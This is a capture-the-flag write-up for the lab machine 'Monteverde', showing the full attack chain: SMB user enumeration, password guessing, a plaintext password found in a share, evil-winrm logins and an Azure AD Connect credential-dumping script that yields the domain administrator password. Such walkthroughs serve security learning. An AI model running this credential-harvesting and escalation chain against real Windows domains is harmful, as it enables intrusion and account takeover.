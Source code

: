 # Monteverde

Monteverde was a medium windows box that involved many common windows exploitation techniques and didnt require much to get both the user and root flags

>Skills onvolved in this box:
- enumeration
- smbclient
- CrackMapExec & enum4linux
- windows privelage escalation

# USER

>Nmap

First we start off with an nmap scan and it reveals many ports open but the ones we are interested in are port 139/445 allowing access to smb.
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-14 07:23:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

We decide to enumerate further with enum4linux and get a list of users on the box.
```bash 
./enum4linux.pl -a 10.10.10.172
```
 reveals the users:
```bash
MEGABANK\Administrator
MEGABANK\krbtgt
MEGABANK\AAD_987d7f2f57d2
MEGABANK\mhope
MEGABANK\SABatchJobs
MEGABANK\svc-ata
MEGABANK\svc-bexec
MEGABANK\svc-netapp
MEGABANK\dgalanos
MEGABANK\roleary
MEGABANK\smorgan
```
The main user that sticks out here is SABatchJobs.
We then try to logon to the box with smbclient:
`smbclient -L 10.10.10.172 -U SABatchJobs` We try a few guesssing passwords and we manage to login with `SABatchJobs:SABatchJobs`
```bash
kali@kali:~$ smbclient -L 10.10.10.172 -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        azure_uploads   Disk      
        C$              Disk      Default share
        E$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        users$          Disk      
SMB1 disabled -- no workgroup available
```
We spot the users$ file lets take a look at that:
```bash
kali@kali:~$ smbclient //10.10.10.172/users$ -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

                524031 blocks of size 4096. 519955 blocks available
smb: \> 
```
We take a look around the users but the only usefull thing we can find is in the dir `mhope`

We find a file called `azure.xml` and we donwload it to our box, we can jsut use `get` or for me i got a timeout error so i mounted it to my box using:
```bash
sudo mount -t cifs //10.10.10.172/users$ /mnt/monteverde -o user=SABatchJobs
```
>azure.xml:
```xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>

```
We find the password `4n0therD4y@n0th3r$` lets use this to try login with evil-winrm, we will use the user mhope as that is the user direcotry where we found the xml file
```bash
kali@kali:~$ evil-winrm -u mhope -p 4n0therD4y@n0th3r$ -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> cd ..
*Evil-WinRM* PS C:\Users\mhope> cd Desktop
*Evil-WinRM* PS C:\Users\mhope\Desktop> ls


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt


*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
4961976bd7d8f4eeb2ce3705e2f212f2
*Evil-WinRM* PS C:\Users\mhope\Desktop>
```
There we go and we get the user flag!

# ROOT

We start by checking permissions for our user `whoami /groups` brings back some interseting results:
```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group

```
`MEGABANK\Azure Admins` seems to be usefull somehow, after a google search we find a priv esc tool called `AzureADConnect` which spits out the admin creds for the box, so we try and utilise this. https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1 <-- for the tool 

```python
*Evil-WinRM* PS C:\Users\mhope\Desktop> import module ./AzureADConnect.ps1 <-- from our box
*Evil-WinRM* PS C:\Users\mhope\Desktop> AzureADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: Administrator
[+] Password: d0m@in4dminyeah!
```
Great now we have creds for the administrator lets log in and grab the root flag!
```bash
kali@kali:~/boxes/monteverde$ evil-winrm -u Administrator -p d0m@in4dminyeah! -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Administrator\Documents> 
cd*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
12909612d25c8dcf6e5a07d1a804a0bc
```
Thanks for reading hope you enjoyed!

